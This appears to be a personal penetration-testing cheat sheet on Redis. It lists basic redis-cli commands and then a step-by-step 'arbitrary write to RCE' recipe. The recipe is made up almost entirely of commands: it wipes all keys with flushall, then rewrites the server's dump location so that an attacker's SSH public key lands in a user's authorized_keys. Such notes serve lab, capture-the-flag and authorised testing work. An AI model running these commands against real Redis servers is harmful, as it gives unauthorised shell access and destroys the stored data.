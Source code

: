 ```yaml
---
title: "Redis"
date: 2024-7-6
tags: ["redis", "redis-cli", "privesc"]
---
```


### Basic

```console
# Connect
redis-cli -h 127.0.0.1
```

```console
# Provide password
auth <PASSWORD>
```

```console
# List current keys
keys *
```

```console
# Add key
incr key
```

```console
# Get key value
get key
```

---

### Abuse #1: Arbitrary write to RCE

```console
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

```console
# Deletes all keys from all databases on current host
redis-cli -h 127.0.0.1 flushall
```

```console
cat foo.txt | redis-cli -h 127.0.0.1 -x set crackit
```

```console
redis-cli -h 127.0.0.1 config set dir /home/<USER>/.ssh/
```

```console
redis-cli -h 127.0.0.1 config set dbfilename "authorized_keys"
```

```console
redis-cli -h 127.0.0.1 save
```

